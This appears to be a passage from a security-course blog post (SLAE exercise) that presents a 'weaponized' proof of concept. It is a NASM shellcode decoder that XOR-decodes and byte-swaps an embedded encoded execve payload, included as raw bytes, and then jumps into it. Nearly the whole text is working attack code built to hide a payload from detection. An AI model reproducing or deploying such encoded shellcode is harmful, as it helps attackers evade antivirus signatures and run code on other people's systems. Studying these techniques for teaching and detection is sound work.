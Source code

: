 
## The proof of concept

This is the assembly weaponized PoC. It takes an encoded payload, it decodes it
and then it passes the execution to the extracted code.

{% highlight assembly %}
; Filename: 	dead_decoder.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>  
; Website:  	https://codiceinsicuro.it
; Blog post:  	https://codiceinsicuro.it/slae/
; Twitter:   	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	This shellcode will decode an execve payload encoded using
;		custom schema, with XOR and byte flipping

global _start			

section .text

_start:
	jmp short call_shellcode

decoder:
	pop esi
	lea edi, [esi]
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx
	
	; As assumption, the first double word in our shellcode is the XOR
	; encoded payload length
	mov edx, dword [esi + eax]
	xor edx, 0xdeadbeef
	
	add al, 4
	
decode:
	mov ebx, dword [esi+eax]
	inc ecx
	cmp cl, dl
	je short EncodedShellcode

	; shellcode is stored in a reversed way. Let' XOR-it
	xor ebx, 0xdeadbeef

	; Now we have to swap again bytes before saving into memory
	bswap ebx

	mov [edi], ebx
	add edi, 4
	add al, 4
	
	jmp short decode


call_shellcode:
	call decoder
	EncodedShellcode: db 0xf7, 0xa6, 0xb5, 0xc6, 0x87, 0xee, 0x6d, 0xef, 0x87, 0xcd, 0x82, 0xf1, 0x86, 0xdc, 0x82, 0xb6, 0xde, 0x5d, 0x24, 0xb0, 0x5f, 0x6c, 0x9c, 0x17, 0x7f, 0x3e, 0x60, 0xd5
{% endhighlight %}
